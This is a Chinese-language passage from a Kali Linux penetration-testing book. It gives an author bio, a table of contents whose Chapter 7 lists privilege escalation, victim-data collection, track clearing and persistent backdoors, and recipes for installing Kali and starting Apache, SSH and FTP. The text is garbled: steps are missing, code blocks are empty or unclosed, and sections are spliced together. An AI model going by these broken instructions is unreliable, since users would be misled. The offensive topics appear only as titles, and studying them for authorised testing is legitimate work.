# Masterking Kali Linux：黑客攻击与破解实





## 关于作者

你好，我叫 Ajay Kumar tiwari。我是一名 IT 安全专家，对 VAPT（漏洞评估与渗透测试）、无线安全、移动安全和漏洞开发有浓厚兴趣。目前，我在德国和俄罗斯的一家机密机构担任网络安全架构师。我是《精通 Kali Linux》、《黑客的 Python》、《Linux 黑客》和《成为黑客的最简单方法》等书的作者。我持有 C|EH、CISE 和 OSWP 认证。此外，在大学学习期间，我曾担任学校 EC-COUNCIL 项目的大使。

我在 IT 安全领域拥有 6 年以上的丰富经验，并通过远程学习包为德里的 Vidhyavilla 运营我的 Web 渗透测试课程。我在印度多所知名大学举办过 90 多场关于伦理黑客和渗透测试的研讨会，并在印度进行过漏洞开发和渗透测试的企业培训。我曾在多个 IT 安全会议上发表过演讲，我的部分文章和研究论文可以在网上找到，你也可以在 Hakin9 和 EForensics（无线取证、iOS 取证、移动取证）等流行安全杂志上找到部分内容。我曾受邀为 Offensive Security、Rapid7、AT&T、Facebook、Apple、BlackBerry、Redhat、Nokia、Microsoft、Adobe、Baracudda Labs、Kaneva、Zynga.com 和 CERT India 发现漏洞。

www.ajaykumartiwari.in


### 第 7 章：权限提升 (171)
* 简介 (171)
* 使用身份装令牌 (171)
* 本地权限提升 (173)
* 精通社会工程工具包 (SET) (175)
* 收集受害者数据 (180)
* 清理痕迹 (181)
* 创建持久性后门 (183)
* 中人攻击 (MITM) (185)


### 准备工作

在解释步骤之前，需要满足以下要求：
让我们开始安装。

### 操作方法……

1. 起初，将 Kali Linux Live DVD 插入电脑的光驱器。您最终将进入 Kali Linux Live DVDBoot 菜单。选择 `Graphical install`（图形化安装）。



*Up and Running with Kali Linux*

4. 选择您的键盘配置。在本例中，我们选择了 `American English`（美英语）。

5. 下一个需要完成的部分是网络服务。输入主机名。在本例中，我们输入了 `Kali`。


7. 现在您将有机会通过输入两次密码来为 root 用户设置密码。



8. 选择您的时区。在本例中，我们选择了 `Eastern`（东部地区）。

9. 我们现在可以选择磁盘分区方案了。您将看到四个选项。选择 `Guided - use entire disk`（引导式 - 使用整个磁盘），因为这允许于分区。


*第 1 章*


11. 接下来，您可以选择三种分区方案之一：`All files in one partition`（所有文件在一个分区）、`Separate/home partition`（单独的 home 分区）或 `Separate/home/user/var, and /tmp` 分区。考虑到 Kali 更多用于渗透测试，不需要也不要求分离分区（尽管对于您的主桌面 Linux 发行版来说这是一个很棒的主意）。在本例中，选择 `All files in one partition` 并点击 `Continue`。


*Up and Running with Kali Linux*

12. 一旦您进入提示即将对磁盘进行更改的屏幕，选择 `Yes`（是）并点击 `Continue`。请注意，这是撤销（防止磁盘上所有数据被覆盖）的最后机会。
*第 1 章*

14. 您可以通过点击 `Continue` 跳过 HTTP 代理页面。

15. 最后，系统会要求您将 `GRUB` 引导加载程序安装到主引导记录。选择 `Yes` 并点击 `Continue`。

*Up and Running with Kali Linux*

16. 您现在已完成 Kali Linux 的安装！恭喜你！点击 `Continue`，系统将重启并将您带到登录页面。

## 安装到带有持久性内存的 USB 驱动器

拥有 Kali Linux USB 驱动器使我们能够持久地保存系统设置，并在 USB 设备上永久地更新和安装新的软件包软件包，使我们能够随时随身携带自己的个性化 Kali Linux。

得益于 `Win32 Disk Imager` 等工具，我们可以为大多数 Linux 发行版创建可启动的 Live USB 盘，包括带有持久存储的 Kali Linux。
### 准备工作

为了继续，需要以下工具和准备：

- 一个容量至少为 8 GB 的 FAT32 格式 USB 驱动器
- 一个 Kali Linux 镜像副本
- `Win32 Disk Imager` (`http://sourceforge.net/projects/win32diskimager/`)
- 从 `http://www.kali.org/downloads/` 下载 Kali Linux ISO 镜像


*第 1 章*
### 操作方法……

1. 启动 `Win32 Disk Imager`：插入已格式化的 USB 驱动器。
2. 启动 `Win32 Imager`。
3. 在 File location（文件位置）处，点击文件夹图标并选择 Kali Linux 镜像：


*Up and Running with Kali Linux*

5. 选择新创建的 USB 驱动器。
6. 在提取和安装引导加载程序期间过程将需要一些时间。


*第 1 章*

7. 设置虚拟磁盘的位置和大小。
8. 检查设置是否正确并点击 `Create`（创建）开始创建虚拟磁盘文件。
9. 我们回到了之前的向导，显示虚拟机参数的摘要。点击 `Create` 完成：


*Up and Running with Kali Linux*

11. 在 VirtualBox 主窗口中，选中 `Kali Linux`，然后点击 `Settings`（设置）按钮：
12. 现在已经遵循了基本的安装步骤，我们将继续允许您使用下载的 ISO 文件作为虚拟磁盘。这将让您无需刻录物理光盘即可完成安装。在 `Settings` 屏幕上，点击 `Storage`（存储）菜单选项：
13. 接下来，在 `Storage Tree`（存储树）下，选中 `IDE Controller` 下方的 `Empty`（空）图标。这选择了我们的虚拟光驱/DVD 驱动器。在屏幕最右侧，在


属性，点击光盘图标。在随后弹出的窗口中，从列表中选择您的 Kali Linux ISO 文件。如果没有 Kali Linux ISO 文件，请选择 `Choose a virtual CD/DVD disc file...` 选项并找到您的 ISO 文件。完成这些步骤后，点击 `OK` 按钮：

14. 点击 `Start` 按钮，然后点击新窗口内部并继续安装。安装步骤将在本章的`安装到硬盘驱动器`配方中介绍。

安装 VirtualBox 扩展包（Extension Pack）还允许我们扩展虚拟化产品的功能，增加对 USB 2.0 (EHCI) 设备、VirtualBox RDP 和 Intel PXE 启动 ROM 的支持。

23


Kali Linux 快速上手

安装 VMware Tools

在本配方中，我们将演示如何使用 VMware Tools 将 Kali Linux 安装为虚拟机。

### 准备工作

需要满足以下要求：

- 之前已安装的 Kali Linux VMware 虚拟机

## 如何操作...

让我们开始在 VMware 上安装 Kali Linux 的过程：

1. 在虚拟机的客操作系统已启动并连接到互联网的情况下，打开 `Terminal` 窗口并输入以下命令来准备内核源：

```
prepare-kernel-sources

这些指令假设您正在使用 Linux 或 Mac OS 机器。您不需要在 Windows 下执行这些步骤。

2. 在 VMware Workstation 栏上，导航到 `VM|Install VMware Tools...`：

24


3. 将 VMware Tools 安装程序拷贝到临时位置，然后更改位置到目标目录：

```bash
cp /media/VMware Tools/VMwareTools-8.8.2-590212.tar.gz /tmp/; cd /tmp/
```

根据您的 VMware Tools 版本替换文件名：
`VMwareTools-<version>-<build>.tar.gz`


```bash
tar zxpf VMwareTools-8.8.2-590212.tar.gz
```

5. 进入 VMware Tools 目录并运行安装程序：

```bash
cd vmware-tools-distrib/
```

6. 按 `Enter` 接受每个配置问题中的默认值；`vmware-config-tools.pl` 脚本同样如此。

7. 最后，重启，我们就完成了！

## 工作原理...

在第一步中，我们准备了内核源。接下来，我们向客操作系统虚拟插入 VMware Tools CD。然后，我们创建了挂载点并挂载了虚拟光驱器。我们在临时文件夹中拷贝并提取了安装程序，最后在保留默认值的情况下运行了安装程序。


首次启动新安装的 Kali Linux 系统，我们会发现启动界面消失了。为了手动修复，我们需要提取 `Initrd`，对其进行修改，然后再次压缩。幸运的是，由 Mati Aharoni（Kali Linux 的创始人“muts”）创建了一个自动 bash 脚本，让整个过程变得更容易。

## 如何操作...

要修复消失的启动界面，输入以下命令并按 `Enter`：

bash
fix-splash

25


Kali Linux 快速上手

### 启动网络服务

Kali Linux 带有多种网络服务，这些服务在各种情况下可能有用，但默认是禁用的。在本配方中，我们将涵盖使用各种方法设置和启动每个服务的步骤。
### 准备工作

为了继续，需要以下要求：

- 连接到具有有效 IP 地址的网络的连接

## 如何操作...

让我们开始启动默认服务的过程：


```bash
service apache2 start
```

我们可以通过访问 localhost 地址来验证服务器正在运行。

2. 要启动 `Secure Shell(SSH)` 服务，首次需要生成 SSH 密钥：

```bash
```

3. 启动 Secure Shell 服务器：

```bash
service ssh start
```

4. 要验证服务器已启动并监听，使用 `netstat` 命令：

netstat -tpan | grep 22
```

5. 启动 FTP 服务器：

```bash
service pure-ftpd start
```

6. 验证 FTP 服务器，使用以下命令：
```bash
netstat -ant | grep 21
```

您也可以使用 `ps-ef | grep 21` 命令。

26


7. 要停止服务，使用以下命令：

```bash
service <servicename> stop
```

8. 要要在启动时启用服务，使用以下命令：

```bash
```

设置网络

Kali Linux 带有多种网络服务，这些服务在各种情况下可能有用，但默认是禁用的。在本配方中，我们将涵盖使用各种方法设置和启动每个服务的步骤。

## 如何操作...

让我们开始启动默认服务的过程：
1. 从 `Terminal` 窗口输入 `wicd-gtk`：

```bash
wicd-gtk --no
```

27

